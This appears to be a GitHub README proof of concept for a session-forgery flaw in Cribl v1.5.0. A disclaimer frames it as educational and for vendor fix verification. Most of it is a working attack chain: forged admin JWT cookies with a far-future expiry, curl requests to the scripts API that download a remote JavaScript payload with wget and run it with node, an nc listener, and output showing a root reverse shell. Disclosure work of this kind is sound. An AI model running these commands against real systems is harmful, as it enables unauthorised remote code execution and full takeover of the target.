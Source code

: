 # Disclaimer  
This is for informational/educational purposes only.  
This was put together to demonstrate an insecurity in the tool, in order for a fix to be verified by the vendor.
# Info
Tested on Cribl v1.5.0 - Previous versions not tested but likely vulnerable.  
A valid JWT token can be transfered from and injected into the session of another Cribl instance, giving the user unauthorised access.  
Furthermore, the encryption key used on to generate the JWT/Session can be used to create a valid session for any username, with an extended expiry.  
  
This, combined with the ability to run scripts within Cribl allows a  remote attacker to run malicious code on a Crible instance in order to gain further control.  
An example of such can be seen below, using the scripts  page and a long expiry JWT token, it was possible to create a reverse shell.  
  
Tested using Docker (Alpine).


# Running
First, modify (the remote host name) and upload your shell.js to your webserver. The file contains NodeJS code to create a reverse shell to your website.  
The server must have outbound network access to your remote host/port.  
  
Secondly, setup a listener on your remote host, on the port matching the shell.js:
```
nc -lvp 6669
``` 

Adjust the following curl commands with your remote file.  
Run the CURL commands in order, the outputs should roughly match the indents below.

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"runme","command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{}}' --compressed
```

> "count":1,"items":[{"command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{},"id":"runme"}]}

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/runme/run' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU0OTUyMTU5fQ.W4YDcUJhshv2R25UcumlP4H-2vaCIiJL0hME4eZFIW0' \
--data-binary '{}' --compressed
```
> {"pid":414,"stdout":"N/A","stderr":"N/A"}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
 -H 'Content-Type: application/json'\
 -H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"reverseit","command":"node","args":["/opt/cribl.js"],"env":{}}' --compressed
```
> "count":1,"items":[{"command":"node","args":["/opt/cribl.js"],"env":{},"id":"reverseit"}]}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/reverseit/run' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{}' --compressed
```
> {"pid":353,"stdout":"N/A","stderr":"N/A"}

# Output
```nc -lvp 6669  
Listening on [0.0.0.0] (family 0, port 6669)  
Connection from [188.29.XXX.XXX] port 6669 [tcp/*] accepted (family 2, sport 13720)  
> whoami  
< root  
  
> ls /  
< bin  
< dev  
< etc  
< home  
< lib  
...
```